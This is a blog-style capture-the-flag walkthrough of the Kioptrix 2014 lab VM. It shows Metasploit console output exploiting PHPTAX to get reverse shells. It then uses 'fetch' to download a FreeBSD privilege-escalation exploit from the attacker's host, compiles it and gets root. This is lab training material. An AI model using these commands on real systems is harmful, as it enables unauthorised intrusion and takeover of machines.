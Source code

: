 ```yaml
---
layout: blog_item
title:  "Kioptrix Level 2014 Walkthrough"
date:   2024-04-15 14:00:10
author: Dhruv Ambaliya
description: 'Kioptrix 2014 Walkthrough, CTF solution for Kioptrix Level 2014.'
categories: [walkthroughs]
tags:
- Kioptrix
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.

## Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>

        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)</p></pc>
           </td>
        </tr>        

      </tbody>

</table>
</div>


## Web Application Interrogation

<code>http://192.168.221.159:8080/</code> rendered a page 403 forbidden page. The Firefox UserAgent switcher was leveraged to change the browser to IE 6, exposing the web application **PHPTAX** (this took a while to figure out!):


![phptax](/img/blog/kioptrix/phptax.png)

![phptax2](/img/blog/kioptrix/phptax2.png)

## Non Privileged Shell

Research discovered a metasploit module existed for phptax:

{% highlight bash %}

msf > use exploit/multi/http/phptax_exec
msf exploit(phptax_exec) > set RHOST 192.168.221.159
RHOST => 192.168.221.159
msf exploit(phptax_exec) > set RPORT 8080
RPORT => 8080
msf exploit(phptax_exec) > set TARGETURI /phptax/
TARGETURI => /phptax/
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.221.159  yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8


msf exploit(phptax_exec) > run

[*] [2016.01.07-08:20:41] Started reverse double handler
[*] [2016.01.07-08:20:41] 192.168.221.1598080 - Sending request...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Accepted the first client connection...
[*] [2016.01.07-08:20:42] Accepted the second client connection...
[*] [2016.01.07-08:20:42] Command: echo GiSakqCyBJv7ZAuW;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:42] Command: echo 4yauS5V9QPhhcobv;
[*] [2016.01.07-08:20:42] Writing to socket A
[*] [2016.01.07-08:20:42] Writing to socket B
[*] [2016.01.07-08:20:42] Reading from sockets...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "GiSakqCyBJv7ZAuW\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] [2016.01.07-08:20:43] Reading from socket B
[*] [2016.01.07-08:20:43] B: "4yauS5V9QPhhcobv\r\n"
[*] [2016.01.07-08:20:43] Matching...
[*] [2016.01.07-08:20:43] A is input...
[*] Command shell session 1 opened (192.168.221.162:4444 -> 192.168.221.159:45072) at 2016-01-07 08:20:43 -0500
[*] Command shell session 2 opened (192.168.221.162:4444 -> 192.168.221.159:62420) at 2016-01-07 08:20:43 -0500

id
uid=80(www) gid=80(www) groups=80(www)

{% endhighlight %}

## Local Privilege Escalation

The binary <code>fetch</code> was used to download a FreeBSD 9.0-9.1 mmap/ptrace - Privilege Escalation Exploit, fetch was used as the target didn't contain the usual binaries for file download (wget, curl, etc).

{% highlight bash %}

wget
wget: not found

curl
curl: not found

fetch -o exploit http://192.168.221.162:45/26368
exploit                                               2215  B   32 MBps

mv exploit exploit.c
gcc exploit.c -o exploit
./exploit

id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)
/bin/sh -i
sh: can't access tty; job control turned off
# cd /root
# ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log
# cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in
mind, and not meant for the seasoned pentester. However this does not mean one
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks.

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)

{% endhighlight %}

Thanks for the VM :)
